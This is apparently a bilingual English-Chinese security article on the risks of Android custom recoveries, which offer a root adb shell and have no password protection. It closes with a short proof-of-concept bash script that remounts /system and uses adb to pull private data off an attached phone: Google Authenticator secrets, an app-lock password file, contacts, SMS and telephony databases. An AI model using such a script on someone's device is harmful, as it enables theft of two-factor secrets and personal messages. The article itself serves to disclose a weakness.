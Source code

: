 ##Custom Recoveries：定制恢复

All Custom ROMs are generally embedded with one or the other form of custom recovery. These recovery softwares provides you with large amount of options including but not limited to

- Factory Reset
- Partitioning
- Backup and Restore
- Install / modify parts of internal storage (/system /data etc)
- Adb shell in root mode

所有定制ROM都集成了某个定制的recovery工具。这个recovery软件提供大量选项包含但不限于：

- 恢复出厂设置
- 分区
- 备份恢复
- 安装修改内部存储（/system /data 等）
- root模式的adb shell

Below we have screenshots of two different kind of recoveries.

如下，是两个不同的recovery程序的截屏。

![image07](http://anantshri.info/articles/sec_cust/image012.jpg)
![image08](http://anantshri.info/articles/sec_cust/image014.jpg)
            
The highlighted portions are the risk’s associated with custom Recoveries. And could potentially lead to device compromise.

高亮部分是recovery程序风险较大的，可能导致设备挂掉。

Another risk associated with the recoveries is that none of the recoveries at this point implement any security feature. There is no password protection or internal check. Launching recovery is as simple as reboot device and repeatedly press back button or vol down key.

另一个风险是recovery程序目前都没有安全特性。比如没有密码保护或者内部检查。调用恢复程序简单到只需要在重启手机时同时按back键或者减小音量键。

Note : considering the experimental nature of custom recoveries password protection could be a lesser priority feature as of now.

注：考虑在recovery程序中加入密码保护等在目前是一个很低优先级的需求。

#PoC Code：PoC代码

Note : The PoC code is not developed into something fully deployable to avoid script kiddy approach.

	#!/bin/bash
	#this command will wait till a device is attached
	adb wait-for-device
	#this command will give you the id of the shell user. If 0 then w00t
	id=`adb shell id`
	#system permissions rwx
	sys_perm=`adb shell ls -l -d /system`
	echo id
	echo sys_perm
	#in case system ro then this will remount to rw
	adb remount
	#app protector password
	adb pull /data/data/com.ruimaninfo.approtect/shared_prefs/	com.ruimaninfo.approtect_preferences.xml
	#google authenticator.
	adb pull /data/data/com.android.apps.authenticator/databases/databases.db
	adb pull /data/data/com.andrid.providers.settings/databases/settings.db
	adb pull /data/data/com.providers.contacts/databases/contacts2.db
	adb pull /data/data/com.providers.telephony/databases/mmssms.db
	adb pull /data/data/com.providers.telephony/databases/telephony.db
	adb pull /data/data/com.google.android.apps.plus/databases/
